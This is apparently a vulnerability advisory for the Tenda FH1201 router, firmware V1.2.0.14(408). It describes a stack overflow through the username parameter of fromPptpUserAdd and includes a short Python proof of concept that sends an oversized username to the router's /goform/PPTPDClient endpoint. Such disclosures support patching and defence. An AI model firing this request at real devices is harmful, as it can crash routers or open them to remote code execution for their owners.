



# Tenda FH1201 fromPptpUserAdd_username
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the username parameter in the fromPptpUserAdd function.
### Vulnerability details
In function fromPptpUserAdd line 24, it reads in a user-provided parameter `username`, and the variable `Var` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_4`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.




### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPDClient"

data = {
    "username": "a" * 4000
}

response = requests.get(url, params=data)
print(response.text)
```


